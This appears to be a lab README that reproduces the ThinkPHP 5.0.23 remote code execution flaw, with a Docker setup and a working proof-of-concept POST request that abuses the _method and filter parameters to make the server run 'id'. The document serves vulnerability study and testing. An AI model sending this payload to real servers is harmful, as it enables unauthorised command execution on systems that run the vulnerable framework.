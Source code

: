 # ThinkPHP5 5.0.23 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In its version 5.0(<5.0.24), while obtaining the request method, the framework processes it incorrectly, which allows an attacker to call any method of the Request class, resulting in a RCE vulnerability through a specific exploit chain.

References：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## Environment Setup

Enter the following command：(ThinkPHP version: 5.0.23)

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Send the packets and execute the command `id`:

```
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

![](1.png)
